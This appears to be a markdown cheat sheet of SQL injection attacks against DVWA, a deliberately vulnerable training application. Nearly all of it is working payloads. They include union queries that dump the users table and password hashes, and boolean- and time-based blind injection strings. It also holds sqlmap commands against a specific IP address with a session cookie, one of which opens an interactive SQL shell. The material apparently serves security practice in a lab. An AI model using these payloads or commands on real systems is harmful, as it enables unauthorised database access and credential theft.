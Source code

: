 # SQL Injection 

##### Dump all users 
```sql
%' or '0'='0
```

##### Manual enumeration 

###### Trying to guess column names 
```sql
%' or '0'='0' union select COLUMN_NAME from information_schema.COLUMNS #
```

###### Find the table and column names 
```sql
%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS #
```

##### Dumping password hashes 
```sql
%' or '0'='0' union select user, password from dvwa.users #
```

### Automated 
---

### Using sqlmap 

##### Find backend DB
```sh
python ./sqlmap.py -u "http://161.35.202.77/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=d4ool8gsr78mnro6cas6mrlf35; security=low" --dbs
```

##### Getting an interactive sql shell 
```sh
python ./sqlmap.py -u "http://161.35.202.77/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=d4ool8gsr78mnro6cas6mrlf35; security=low" --sql-shell
```


## Bling SQL injection 
---

##### Finding blind sqli (boolien based)
```sql
1' and 1 = 1 #
```
##### Finding database name length (boolien based)
```
1' and length(database())=4 #
```

##### Finding blind sqli (time based)
```sql
1' and sleep(5)#
```

##### Determine the first letter of the database name (time-based)
```
1' and if(substr((database()),1,1) = 'a' , sleep(3), 1) #
```

## Automated bling sqli with sqlmap

```sh
python ./sqlmap.py -u "http://161.35.202.77/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=d4ool8gsr78mnro6cas6mrlf35; security=low"
```


